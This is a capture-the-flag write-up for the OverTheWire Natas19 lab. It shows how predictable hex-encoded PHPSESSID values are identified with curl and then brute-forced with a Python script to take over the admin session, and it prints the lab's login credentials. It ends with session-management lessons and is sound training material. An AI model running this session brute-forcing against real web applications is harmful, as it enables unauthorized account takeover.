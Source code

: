 ```yaml
---
category: natas
title: Natas19 - Improper Session Management Part 2
---
```


website: http://natas19.natas.labs.overthewire.org/ (password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs)

Unlike previous challenges, you won't be able to view its source code. However, there is one more line added compared to Natas18:
"This page uses mostly the same code as the previous level, but session IDs are no longer sequential...".
According to the hint, we can guess the implementation in this level would not have many changes except the way how a session ID is generated.

To figure out how a session ID is generated, I double checked the returned PHPSESSID in the cookie by running following curl commands multiple times:

```shell
$ curl -I  -u natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs "http://natas19.natas.labs.overthewire.org/?username=admin&password=1234"

HTTP/1.1 200 OK
Date: Fri, 23 Apr 2021 17:40:55 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: PHPSESSID=3336332d61646d696e; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Content-Type: text/html; charset=UTF-8
Via: 1.1 rtp1-dmz-wsa-1.cisco.com:80 (Cisco-WSA/X)
Connection: keep-alive
```

Each time the web application returned a different session ID. However, from what I can tell, the last part is always the same, i.e., "61646d696e", which is the hex ASCII of the username "admin". To validate my guess, I also tried "admin1" as the username. This time the returned PHPSESSID contained "61646d696e31", where it had the hex ASCII of character '1'.

Based on the observation, also taking the hint into consideration, I guess Natas19 generated the session ID in this way:

1. Like what Natas18 did, it first generates a random number between 0 and 640.
2. It then concatenates the random number and the username.
3. Finally it returns the hex ASCII of the concatenated string as the session ID.

To break the password, I came up with the following python script:

```python
#!/usr/bin/env python3

import binascii
import requests
from requests.auth import HTTPBasicAuth


s = requests.Session()
s.auth = HTTPBasicAuth("natas19", "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs")
url = 'http://natas19.natas.labs.overthewire.org/?debug'

# resp = s.post(url, data={"username":'admin', "password":'abc'})
# print(s.cookies.get_dict())
# print(resp.headers)
# print(resp.text)

for i in range(1, 641):
    sid = f'{i}-admin'
    print(f'Trying PHPSESSID...{sid}', end="\r", flush=True)
    # print(binascii.hexlify(sid.encode()).decode())
    resp = s.post(url, data={"username":'admin', "password":'xxx'}, cookies={'PHPSESSID': binascii.hexlify(sid.encode()).decode()})
    if resp and "Password: " in resp.text:
        print(f'\nPHPSESSID found: {i}')
        print(resp.text)
        break
```

What this script does is to combine a number and the username "admin", then translate the combination into a hex.
Running the script I was able to find the correct session ID and the password for natas20.

<strong>LESSONS LEARNED</strong>

1. One should NOT rely on a cookie to do an authentication work, because cookies can be manipulated.
2. The range for a session ID <em>must</em> be large enough. Otherwise it can be easily brute forced.
3. A session ID <em>must</em> be randomly generated, and <em>should not</em> follow obvious patterns.

In <a href="https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html">this article</a>,
it gives more details and suggestions about what properties a good session ID must have.

